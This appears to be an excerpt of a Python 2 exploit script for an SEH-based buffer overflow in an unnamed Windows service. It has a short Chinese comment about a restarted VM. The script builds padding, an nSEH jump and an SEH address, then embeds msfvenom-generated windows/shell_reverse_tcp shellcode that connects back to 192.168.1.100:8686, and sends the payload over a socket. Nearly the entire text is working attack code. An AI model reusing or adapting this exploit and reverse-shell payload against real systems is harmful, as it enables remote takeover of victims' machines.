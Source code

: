 ```python
 
junk = "A"*20
 
#jump 6 
nseh = "\xeb\x06\x90\x90"
 
seh = "\x99\x89\xc5\x76"	# 这里和图中的不一致是因为我重启了虚拟机。。。
 
#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=8686 -b "\x00" -f c
#Payload size: 351 bytes
buf =  ""
buf += "\xd9\xcf\xd9\x74\x24\xf4\xba\xa3\xfc\xc8\xfe\x5e\x2b"
buf += "\xc9\xb1\x52\x83\xc6\x04\x31\x56\x13\x03\xf5\xef\x2a"
buf += "\x0b\x05\xe7\x29\xf4\xf5\xf8\x4d\x7c\x10\xc9\x4d\x1a"
buf += "\x51\x7a\x7e\x68\x37\x77\xf5\x3c\xa3\x0c\x7b\xe9\xc4"
buf += "\xa5\x36\xcf\xeb\x36\x6a\x33\x6a\xb5\x71\x60\x4c\x84"
buf += "\xb9\x75\x8d\xc1\xa4\x74\xdf\x9a\xa3\x2b\xcf\xaf\xfe"
buf += "\xf7\x64\xe3\xef\x7f\x99\xb4\x0e\x51\x0c\xce\x48\x71"
buf += "\xaf\x03\xe1\x38\xb7\x40\xcc\xf3\x4c\xb2\xba\x05\x84"
buf += "\x8a\x43\xa9\xe9\x22\xb6\xb3\x2e\x84\x29\xc6\x46\xf6"
buf += "\xd4\xd1\x9d\x84\x02\x57\x05\x2e\xc0\xcf\xe1\xce\x05"
buf += "\x89\x62\xdc\xe2\xdd\x2c\xc1\xf5\x32\x47\xfd\x7e\xb5"
buf += "\x87\x77\xc4\x92\x03\xd3\x9e\xbb\x12\xb9\x71\xc3\x44"
buf += "\x62\x2d\x61\x0f\x8f\x3a\x18\x52\xd8\x8f\x11\x6c\x18"
buf += "\x98\x22\x1f\x2a\x07\x99\xb7\x06\xc0\x07\x40\x68\xfb"
buf += "\xf0\xde\x97\x04\x01\xf7\x53\x50\x51\x6f\x75\xd9\x3a"
buf += "\x6f\x7a\x0c\xec\x3f\xd4\xff\x4d\xef\x94\xaf\x25\xe5"
buf += "\x1a\x8f\x56\x06\xf1\xb8\xfd\xfd\x92\x06\xa9\xfc\x06"
buf += "\xef\xa8\xfe\xe7\x01\x25\x18\x8d\xcd\x60\xb3\x3a\x77"
buf += "\x29\x4f\xda\x78\xe7\x2a\xdc\xf3\x04\xcb\x93\xf3\x61"
buf += "\xdf\x44\xf4\x3f\xbd\xc3\x0b\xea\xa9\x88\x9e\x71\x29"
buf += "\xc6\x82\x2d\x7e\x8f\x75\x24\xea\x3d\x2f\x9e\x08\xbc"
buf += "\xa9\xd9\x88\x1b\x0a\xe7\x11\xe9\x36\xc3\x01\x37\xb6"
buf += "\x4f\x75\xe7\xe1\x19\x23\x41\x58\xe8\x9d\x1b\x37\xa2"
buf += "\x49\xdd\x7b\x75\x0f\xe2\x51\x03\xef\x53\x0c\x52\x10"
buf += "\x5b\xd8\x52\x69\x81\x78\x9c\xa0\x01\x88\xd7\xe8\x20"
buf += "\x01\xbe\x79\x71\x4c\x41\x54\xb6\x69\xc2\x5c\x47\x8e"
buf += "\xda\x15\x42\xca\x5c\xc6\x3e\x43\x09\xe8\xed\x64\x18"

reverse = buf
fill = "D"*(4055 - len(reverse))
 
payload = junk + nseh + seh + reverse + fill
 
buffer = payload + "\r"
buffer+= payload + "\r"
buffer+= payload + "\r\n"
 
print bz.recv(1000)
bz.send(buffer)
print "[+] sending buffer ok\n"
 
time.sleep(3)
bz.close()
s.close()
```
